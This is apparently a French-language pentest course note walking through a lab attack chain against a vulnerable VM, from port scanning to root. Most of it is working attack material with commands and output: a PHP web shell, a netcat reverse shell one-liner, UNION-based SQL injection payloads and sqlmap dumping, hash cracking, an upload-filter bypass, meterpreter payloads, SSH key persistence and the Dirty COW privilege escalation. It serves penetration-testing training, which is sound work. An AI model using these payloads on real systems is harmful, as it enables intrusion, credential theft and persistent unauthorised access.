

## Upload de fichier

Exécution de commande basique :

```php
<?php
    system($_REQUEST['cmd']);
?>
```

## Exécuter des commandes simplement

Passer en POST :
"Change request method" dans le Repeter.

encoder les commandes avec `Ctrl + U`.

## Reverse shell:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

netcat en écoute
```bash
nc -lvnp 1234
```


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Améliorer son shell

Minimal : utiliser rlwrap
```bash
rlwrap nc -lvnp 1234
```

### Mieux si python

Dans le shell
```
python -c "import pty;pty.spawn('/bin/bash')"
```

`Ctrl + Z` pour passer en arrière plan

```bash
stty raw -echo

fg
export TERM=xterm
```

## Énumération

### Nmap

Initial
```bash
nmap -sV -sC ip -oN nmap/inital.nmap
```

Full
```bash
nmap -sV -sC -p- ip -oA nmap/full.nmap
``` 

### Gobuster

Wordlists de qualité :
[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

```bash
gobuster dir -u http://url -w /usr/share/wordlist/dirbuster/directory-list-2.3-med.txt -o gb_med.txt
```

### Nikto

```bash
nikto -h http://url
```

## From SQLi to Shell

Objectif : obtenir un shell sur la machine.

1. Faire un scan de port
2. Lancer gobuster, et nikto (cf cours reconnaissance)
3. Rechercher des failles à exploiter


## Exploitation SLQi

### À la main

Trouver la version :\
`GET /cat.php?id=2+UNION+SELECT+NULL,@@version,NULL,NULL+LIMIT+1,1`


Trouver les bases de données :\
`GET /cat.php?id=2+UNION+SELECT+NULL,group_concat(0x7c,schema_name,0x7c),NULL,NULL+FROM+information_schema.schemata+LIMIT+1,1`

    Picture: |information_schema|,|photoblog|

Trouver les tables :\
`GET /cat.php?id=2+UNION+SELECT+NULL,group_concat(0x7c,table_name,0x7c),NULL,NULL+FROM+information_schema.tables+WHERE+table_schema='photoblog'+LIMIT+1,1`

    Picture: |categories|,|pictures|,|users|


Trouver les colonnes :\
`GET /cat.php?id=2+UNION+SELECT+NULL,group_concat(0x7c,column_name,0x7c),NULL,NULL+FROM+information_schema.columns+WHERE+table_name='users'+LIMIT+1,1 `

    Picture: |id|,|login|,|password|

Extraire des données :
`GET /cat.php?id=2+UNION+SELECT+NULL,group_concat(login,':',password),NULL,NULL+FROM+users+LIMIT+1,1`

    Picture: admin:8efe310f9ab3efeae8d410a8e0166eb2

### SQLmap

```bash
$ sqlmap -u "http://192.168.56.6/cat.php?id=1*" --batch --level=5 --risk=3 --dump

sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind


[10:44:44] [INFO] cracked password 'P4ssw0rd' for user 'admin'                                                                                                               
Database: photoblog                                                                                                                                                          
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```

## Casser le Hash


### Identifier le type du hash

```bash
$ hash-identifier       
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 8efe310f9ab3efeae8d410a8e0166eb2

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

### Chercher sur le web

On peut faire un recherche sur hashes.org



### Le casser avec hashcat

Trouver le format : 

```bash
$ hashcat -h | grep -i md5
      0 | MD5                                              | Raw Hash
   5100 | Half MD5                                         | Raw Hash
     10 | md5($pass.$salt)                                 | Raw Hash, Salted and/or Iterated
     20 | md5($salt.$pass)                                 | Raw Hash, Salted and/or Iterated
```

Casser le mot de passe avec une liste.

```bash
$ cat admin.hash

$ hashcat --force -m 0 admin.hash /usr/share/wordlists/rockyou.txt --rules=/usr/share/hashcat/rules/best64.rule
hashcat (v6.1.1) starting...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 1104517645
* Runtime...: 8 secs

8efe310f9ab3efeae8d410a8e0166eb2:P4ssw0rd
```

Revoir un mot de passe déjà cracké.
```bash
$ hashcat  admin.hash --show                                                                       
8efe310f9ab3efeae8d410a8e0166eb2:P4ssw0rd
```

## Reverse shell

On peut bypasser la liste noire avec l'extension `.php3`.

__`shell.php3`__
```php
<?php
	system($_REQUEST['cmd']);
?>
```

    $ curl http://192.168.56.6/admin/uploads/shell.php3?cmd=ls
    cthulhu.png
    hacker.png
    ruby.jpg
    shell.php3

## Meterpeter

### Générer un reverse shell meterpreter

```bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.5 LPORT=5555 -f raw > meter.php3
```

### Multi handler

```
msf6> use exploit/multi/handler

msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.56.5
LHOST => 192.168.56.5

msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555

msf6 exploit(multi/handler) > run -j
```

Interagir avec la session 
```
msf6 exploit(multi/handler) > [*] Sending stage (39282 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.5:5555 -> 192.168.56.6:58225) at 2020-12-16 12:45:47 +0100

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: www-data (33)
```

### Shell SSH

En regardant le fichier __`/etc/passwd`__ :
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
...
```

On voit que l'utilisateur www-data a un shell : `/bin/sh` et que son dossier est `/var/www`.

On peut obtenir un meilleur shell en ajoutant une clé SSH au fichier `.ssh/authorized_key` dans le home (`/var/www`) de l'utilisateur `www-data`.

Générer la clé SSH:
    
    ssh-keygen

Notre clé se trouve dans /home/kali/.ssh/id_rsa.pub


    use post/linux/manage/sshkey_persistence

```bash
msf6 post(linux/manage/sshkey_persistence) > options 

Module options (post/linux/manage/sshkey_persistence):

   Name             Current Setting       Required  Description
   ----             ---------------       --------  -----------
   CREATESSHFOLDER  false                 yes       If no .ssh folder is found, create it for a user
   PUBKEY                                 no        Public Key File to use. (Default: Create a new one)
   SESSION                                yes       The session to run this module on.
   SSHD_CONFIG      /etc/ssh/sshd_config  yes       sshd_config file
   USERNAME                               no        User to add SSH key to (Default: all users on box

msf6 post(linux/manage/sshkey_persistence) > set CREATESSHFOLDER true
CREATESSHFOLDER => true

msf6 post(linux/manage/sshkey_persistence) > set pubkey /home/kali/.ssh/id_rsa.pub
pubkey => /home/kali/.ssh/id_rsa.pub

msf6 post(linux/manage/sshkey_persistence) > set session 2
session => 2

msf6 post(linux/manage/sshkey_persistence) > run

[*] Checking SSH Permissions
[*] Authorized Keys File: .ssh/authorized_keys
[*] Finding .ssh directories
[*] Adding key to /var/www/.ssh/authorized_keys
[+] Key Added
[*] Post module execution completed
```

On peut maintenant se connecter en ssh à l'utilisateur __www-data__.

```bash
ssh www-data@192.168.56.6 
```


## Elévation de privilèges

Un script d'audit bien pratique.

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite


On peut le transférer en http.

Sur notre kali, se mettre dans le dossier du fichier à transférer.\
Mettons `/opt/privilege-escalation-awesome-scripts-suite/linPEAS`.

On peut lancer un petit serveur HTTP :
```bash
sudo python3 -m http.server 80
```

Sur la machine distante.
```bash
wget http://192.168.56.5/linpeas.sh
```

On constate qu'on a un ancien noyau Linux. On peut utiliser le fameux __dirty cow__ pour devenir administrateur.

## Récupérer l'exploit

Le site [dirtycow.ninja](https://dirtycow.ninja/) liste différents exploit pour dirty cow.

On peut cliquer sur le github lier pour récupérer un exploit.

__[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)__

Nous allons ici exploiter le dernier exploit de la liste, __`dirty.c`__.\
__[https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)__

On peut le récupérer avec un __wget__.

    wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c

### Compiler l'exploit

Notre cible utilise un noyau Linux 32 bits.\
On peut le voir avec la commande `uname -a`. Le paramètre i686 indique un noyau 32bit.

`Linux debian 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012` __`i686`__ `GNU/Linux`


Il va donc falloir compiler l'exploit pour un système 32 bits.\
On peut utiliser pour cela notre machine "OWASP broken web apps".

1. Démarrer la machine OWASP Broken web Apps dans Virtualbox
2. Se connecter en SSH sur la machine (root:owaspbwa)


```bash
ssh root@192.168.56.101
```

(déposer une clé SSH : `ssh-copy-id -i ~/.ssh/id_rsa.pub root@192.168.56.101`)..

Pour déposer un fichier, on peut utiliser la commande __`sftp`__.

```bash
$ sftp root@192.168.56.101   
Connected to 192.168.56.101.

sftp> put dirty.c
Uploading dirty.c to /root/dirty.c
dirty.c 

```

On peut ensuite se reconnecter à la machine, et compiler __`dirty.c`__.

On utilise __`less`__ pour voir les instructions, puis on le compile avec __`gcc`__.


```bash
ssh root@192.168.56.101

root@owaspbwa:~# ls
dirty.c

root@owaspbwa:~# gcc -pthread dirty.c -o dirty -lcrypt
root@owaspbwa:~# ls
dirty  dirty.c

```

Nous avons bien réussi à compiler dirty. On le récupère maintenant avec `sftp`, et on le dépose sur la machine cible.

#### Récupérer le binaire
```bash
$ sftp root@192.168.56.101
Connected to 192.168.56.101.

sftp> get dirty
Fetching /root/dirty to dirty
/root/dirty                                                                                                                  100%   12KB   5.6MB/s   00:00    
sftp> exit
```

#### Le déposer sur la machine cible
```bash
$ ssh www-data@192.168.56.6
Linux debian 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Dec 16 13:59:05 2020 from 192.168.56.5

$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7796000

```

On attend quelques instants, et on peut maintenant se connecter avec notre nouvel utilisateur __firefart__, et le mot de passe qu'on a définit.

```bash
$ su firefart
Password: 
firefart@debian:/var/www# 
```


